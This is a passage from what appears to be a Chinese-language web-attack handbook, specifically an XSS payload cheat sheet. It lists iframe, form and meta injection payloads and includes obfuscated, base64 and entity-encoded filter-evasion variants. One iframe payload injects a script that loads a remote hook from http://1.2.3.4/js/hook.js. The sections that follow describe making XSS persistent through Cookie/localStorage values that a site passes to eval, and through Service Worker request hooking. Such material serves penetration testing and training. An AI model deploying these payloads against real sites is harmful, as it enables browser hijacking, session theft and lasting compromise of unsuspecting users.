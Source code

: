 ## 3.2.9.12. iframe

```
<iframe onload='
    var sc   = document.createElement("scr" + "ipt");
    sc.type  = "text/javascr" + "ipt";
    sc.src   = "http://1.2.3.4/js/hook.js";
    document.body.appendChild(sc);
    '
/>
```

- `<iframe src=javascript:alert(1)></iframe>`
- `<iframe src="data:text/html,<iframe src=javascript:alert('M')></iframe>"></iframe>`
- `<iframe src=data:text/html;base64,PGlmcmFtZSBzcmM9amF2YXNjcmlwdDphbGVydCgiTWFubml4Iik+PC9pZnJhbWU+></iframe>`
- `<iframe srcdoc=<svg/o&#x6E;load&equals;alert&lpar;1)&gt;></iframe>`
- `<iframe src=https://baidu.com width=1366 height=768></iframe>`
- `<iframe src=javascript:alert(1) width=1366 height=768></iframe`

## 3.2.9.13. form

- `<form action=javascript:alert(1)><input type=submit>`
- `<form><button formaction=javascript:alert(1)>M`
- `<form><input formaction=javascript:alert(1) type=submit value=M>`
- `<form><input formaction=javascript:alert(1) type=image value=M>`
- `<form><input formaction=javascript:alert(1) type=image src=1>`

## 3.2.9.14. meta

```
<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">
```

# 3.2.10. 持久化

## 3.2.10.1. 基于存储

有时候网站会将信息存储在Cookie或localStorage，而因为这些数据一般是网站主动存储的，很多时候没有对Cookie或localStorage中取出的数据做过滤，会直接将其取出并展示在页面中，甚至存了JSON格式的数据时，部分站点存在 `eval(data)` 之类的调用。因此当有一个XSS时，可以把payload写入其中，在对应条件下触发。

在一些条件下，这种利用方式可能因为一些特殊字符造成问题，可以使用 `String.fromCharCode` 来绕过。

## 3.2.10.2. Service Worker

Service Worker可以拦截http请求，起到类似本地代理的作用，故可以使用Service Worker Hook一些请求，在请求中返回攻击代码，以实现持久化攻击的目的。

在Chrome中，可通过 `chrome://inspect/#service-workers` 来查看Service Worker的状态，并进行停止。

## 3.2.10.3. AppCache
